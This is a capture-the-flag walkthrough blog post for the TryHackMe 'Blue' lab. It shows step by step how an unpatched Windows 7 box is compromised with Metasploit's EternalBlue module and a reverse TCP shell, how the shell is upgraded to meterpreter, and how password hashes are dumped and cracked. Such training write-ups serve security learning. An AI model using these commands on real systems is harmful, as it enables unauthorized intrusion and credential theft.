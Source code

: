 ```yaml
---
layout: post
title: "Blue"
date: 2022-03-21
categories: [Tryhackme, Easy-THM]
tags: [Windows, enumerate, CMS, weekly-challenge]
image: ../../assets/img/posts/AgentSudo/Blue.png 

---
```


## Description

Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

|**Room**|[Blue](https://tryhackme.com/room/blue)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[DarkStar7471](https://tryhackme.com/p/DarkStar7471)|

---

Let's run port scan on the deployed box,

```bash
nmap -sC -sV -p 1-1000 -oN nmap.txt 10.10.169.142
```

![image](https://user-images.githubusercontent.com/67465230/159208827-9ea5ea28-5f38-49be-8d13-287f0f3b7ed7.png)

We got 3 open ports, 135,139,445. Version running on the machine is Windows 7 Professional 6.1.

Let's search this machine's version on the google and there's a rapid7 exploit link, [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) from which we get to know that this version of windows is vulnerable to MS17-010 a.k.a EternalBlue exploit

![image](https://user-images.githubusercontent.com/67465230/159208846-2a9ca746-13ee-46c7-90e8-e7b38443e26f.png)

```md
CVE-2017-0144: SMBv1 server in Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016 allows remote attackers to execute arbitrary code via crafted packets, aka "Windows SMB Remote Code Execution Vulnerability." This vulnerability is different from those described in CVE-2017-0143, CVE-2017-0145, CVE-2017-0146, and CVE-2017-0148.
```

Let's now exploit this vulnerability using metasploit-framework and fire it up using `msfconsole -q` and we'll search for exploit name,
 
```bash
search eternalblue
```

![image](https://user-images.githubusercontent.com/67465230/159208857-cd864191-4a3f-43de-8147-ee0fd4b1977f.png)

We have many exploits for this name but we're interested in **exploit/windows/smb/ms17_010_eternalblue** module, so we'll use this module.
 
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

![image](https://user-images.githubusercontent.com/67465230/159208862-80d6dec3-7866-432d-9060-d2f6a6de811d.png)

We'll now set options but before setting them, let's see what options we have to set by doing `options`,

![image](https://user-images.githubusercontent.com/67465230/159208870-f28746ec-eeb8-40ca-bb66-1185ae970895.png)

Okay, we've to set rhosts, lhost, target and also *payload*.
 
Let's set options:
- **set rhosts 10.10.169.142**
- **set lhost 10.9.4.94**
- **set target 0**
- **set payload windows/x64/shell/reverse_tcp**

![image](https://user-images.githubusercontent.com/67465230/159208876-efe50cbb-4bf7-4b56-b1f4-d709371f1ed9.png)

Now that everything is set, we'll fire-up this exploit using `exploit` command,

![image](https://user-images.githubusercontent.com/67465230/159208887-841e5fbf-e1df-4fe3-9a45-4ae710a3f68e.png)

after sometime we'll get a DOS shell. Now, that we have a shell, why not get a meterpreter shell which is far more stable than this shell and will provide us many functionality and for that do CTRL+Z to background the shell and we can see that we got our metasploit-framework prompt back.

let's keep in mind of our shell's session,

```bash
sessions -l
```

![image](https://user-images.githubusercontent.com/67465230/159208894-d906d765-f62c-4514-a80b-f2f26de683ed.png)

Cool! Now, let's upgrade shell to meterpreter and for that we'll do some research on google and I found a module with which we can upgrade our shell to meterpreter, **post/multi/manage/shell_to_meterpreter**.

```bash
search post/multi/manage/shell_to_meterpreter
```

![image](https://user-images.githubusercontent.com/67465230/159208905-0c3441f7-b247-4f0f-acbc-99278a3ec61d.png)

we'll use this module,

```bash
use post/multi/manage/shell_to_meterpreter
```

now, we'll set options,
 - **set lhost 10.9.4.94**
 - **set session 2**

![image](https://user-images.githubusercontent.com/67465230/159208918-5baf2e97-2a21-4dee-9b19-1a362b925c19.png)

now that we've set all the options, let's fire this module using `exploit` command,

![image](https://user-images.githubusercontent.com/67465230/159208931-af547a67-c74e-484c-ad33-7642c8f29a02.png)

we got the meterpreter session open in front of us, now, press Enter and we'll get our metasploit-framework prompt back and there we'll do,

```bash
sessions -l
```

![image](https://user-images.githubusercontent.com/67465230/159208934-1866b208-fc75-4dca-92eb-a714de6c774e.png)

We'll select session 3 now.

Let's interact with session 3,

```bash
sessions -i 3
```

![image](https://user-images.githubusercontent.com/67465230/159208946-d2df7814-9897-4581-a47a-aacb7fb43444.png)

we immediately got the meterpreter shell.

Verify that we have escalated to NT AUTHORITY\SYSTEM. We'll run `getsystem` to confirm this and then confirm what user we're using `getuid`,

![image](https://user-images.githubusercontent.com/67465230/159208956-c765b4f6-97df-47ac-9785-20b9fb46eb22.png)

We're SYSTEM!!

We can list all of the processes running via the `ps` command. Just because we are system doesn't mean our process is,

![image](https://user-images.githubusercontent.com/67465230/159208964-9f9c1f9c-0d88-4ddc-9174-bbd280d7d270.png)

We can see that there are many process running under NT AUTHORITY\SYSTEM and we'll write process ID (remember).

We'll migrate the process using `migrate PROCESS_ID` command where the process id is the one you just wrote down in the previous step,

```bash
migrate 836
```

![image](https://user-images.githubusercontent.com/67465230/159208967-5b69824b-a3cb-4615-bdfc-a56d3cd6d7a2.png)

We've successfully migrated to other process. 

We've now gain full access to the machine and now let's dump all the passwords using `hashdump`,

```bash
hashdump
```

![image](https://user-images.githubusercontent.com/67465230/159208971-40777e78-f98e-4782-92c5-4e4033d1a44f.png)

Let's copy this hash and paste it in file on our own machine and using JTR, we will crack this hash,

```bash
john crack --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```

![image](https://user-images.githubusercontent.com/67465230/159208977-81b3edf1-b1e2-48da-aacb-11bcd670f14e.png)

we got cracked password of the user.

Now, time to hunt the flags and for that run `search -f flag*.txt` (what this command will do is to search any txt file which is named as flag[X] recursively in whole system where, X is number 1-9) and we found all flag destination directory. So let's navigate to those directory,

We got our first flag in root directory,

![image](https://user-images.githubusercontent.com/67465230/159208983-ba87f8ed-d652-4dcc-bf1a-a3c0983891c3.png)

Looking for second, we got flag where passwords are stored within windows, C:\Windows\System32\config, use `ls` command to list all content of directory,

![image](https://user-images.githubusercontent.com/67465230/159208993-d0d905e6-7f11-4e30-9c1c-dd248e7806c3.png)

Finally, looking for 3rd flag which is excellent location for looting flags,

![image](https://user-images.githubusercontent.com/67465230/159209023-6aa9a033-7184-400e-977d-438323a91a75.png)
